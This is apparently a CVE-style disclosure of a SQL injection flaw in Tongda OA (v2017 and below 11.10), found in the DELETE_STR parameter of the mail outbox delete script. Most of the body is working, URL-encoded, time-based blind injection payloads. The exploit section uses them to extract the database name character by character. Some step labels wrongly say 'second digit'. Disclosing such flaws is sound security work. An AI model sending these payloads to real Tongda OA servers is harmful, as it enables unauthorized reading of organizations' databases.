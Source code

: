 SQL injection vulnerability exists in Tongda OA v2017 and versions below 11.10

official website:https://www.tongda2000.com/

version:Less than v11.10, v2017

route：/general/email/outbox/delete.php

injection parameter:$DELETE_STR



#### 	1.Vulnerability analysis

The parameter $DELETE_STR here is directly spliced into the sql statement after removing the null value. There is a sql injection point.

![image](https://raw.githubusercontent.com/rockersiyuan/CVE/main/TongDa%20Sql%20inject.assets/t1.png)

At the same time, global parameter filtering is shown in the figure below, and only conventional injection filtering detection is performed.

![image](https://raw.githubusercontent.com/rockersiyuan/CVE/main/TongDa%20Sql%20inject.assets/image-20240126094241423.png?token=GHSAT0AAAAAACNLZOLMRBD2RD2Y7S3XAX2CZNTDPEQ)

#### 	2.Vulnerability verification

We can use Cartesian product blind injection for injection. The following payload can determine that the first character of the database name is t, because it was successfully delayed at 116. The ASCII code 116 also corresponds to the lowercase letter t. By analogy, the database name and any information about the database can be obtained through blind injection.

```
1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![image](https://raw.githubusercontent.com/rockersiyuan/CVE/main/TongDa%20Sql%20inject.assets/image-20240126094806730.png?token=GHSAT0AAAAAACNLZOLM7QTEEQQ5Z6IJUFRKZNTDPGQ)

If we replace 116 with another value such as 115, then there will be no time delay, thus proving that our injection is successful. There is a sql injection vulnerability here.

```
1)%20and%20(substr(DATABASE(),1,1))=char(115)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![image](https://raw.githubusercontent.com/rockersiyuan/CVE/main/TongDa%20Sql%20inject.assets/image-20240126095114500.png?token=GHSAT0AAAAAACNLZOLM7JYOCBZA227JNCQSZNTDPIA)

#### 	3.Exploit

Based on the above verification analysis, the SQL injection vulnerability exists. We can continue to obtain the complete name of the entire database through blind injection.

The second digit of the database is intercepted through blind injection, and the second digit is judged to be the letter d through the delay time, and the ASCII code is 100.

```
1)%20and%20(substr(DATABASE(),2,1))=char(100)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![image](https://raw.githubusercontent.com/rockersiyuan/CVE/main/TongDa%20Sql%20inject.assets/image-20240126095822818.png?token=GHSAT0AAAAAACNLZOLMUQBW3GOCONLUXVEMZNTDPKA)

The third digit of the database is intercepted through blind injection, and the second digit is judged to be '_' through the delay time, and the ASCII code is 95.

```
1)%20and%20(substr(DATABASE(),3,1))=char(95)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![image](https://raw.githubusercontent.com/rockersiyuan/CVE/main/TongDa%20Sql%20inject.assets/image-20240126095911470.png?token=GHSAT0AAAAAACNLZOLNNVSMUA42M2W6UASGZNTDQKQ)

The fourth digit of the database is intercepted through blind injection, and the second digit is judged to be the letter o through the delay time, and the ASCII code is 111.

```
1)%20and%20(substr(DATABASE(),4,1))=char(111)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![image](https://raw.githubusercontent.com/rockersiyuan/CVE/main/TongDa%20Sql%20inject.assets/image-20240126100122531.png?token=GHSAT0AAAAAACNLZOLNOH24CMBG7JKGSIU2ZNTDT2A)

The fifth digit of the database is intercepted through blind injection, and the second digit is judged to be the letter a through the delay time, and the ASCII code is 97.

```
1)%20and%20(substr(DATABASE(),5,1))=char(97)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![image](https://raw.githubusercontent.com/rockersiyuan/CVE/main/TongDa%20Sql%20inject.assets/image-20240126100029696.png?token=GHSAT0AAAAAACNLZOLNVN6ENR5FH6DJEYYQZNTDQMQ)

In summary, the complete database name can be obtained based on this sql injection vulnerability: td_oa
